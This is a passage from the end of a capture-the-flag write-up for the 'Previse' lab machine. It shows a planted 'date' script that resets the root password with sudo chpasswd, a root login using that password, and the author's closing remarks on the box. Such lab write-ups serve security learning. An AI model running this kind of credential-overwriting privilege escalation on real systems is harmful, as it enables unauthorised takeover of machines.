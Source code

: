 ```bash
$ cat /home/m4lwhere/date

> #!/bin/bash
echo 'root:root' | sudo chpasswd
```

We can then login to root directly:

```bash
$ su root
Password:

root@previse:~ whoami
root
```

## Final notes:

Overall the box was very interesting and brought a lot of concepts to the hacker. The most difficult part was not falling into the inital rabbit holes that the box creator @m4lwhere put in place during the foothold phase. If I could change a thing about the box, it would be change the User privesc to something less time consuming. Cracking the hash did not take that long for me, but speaking with some other hackers, it took close to half an hour for some.
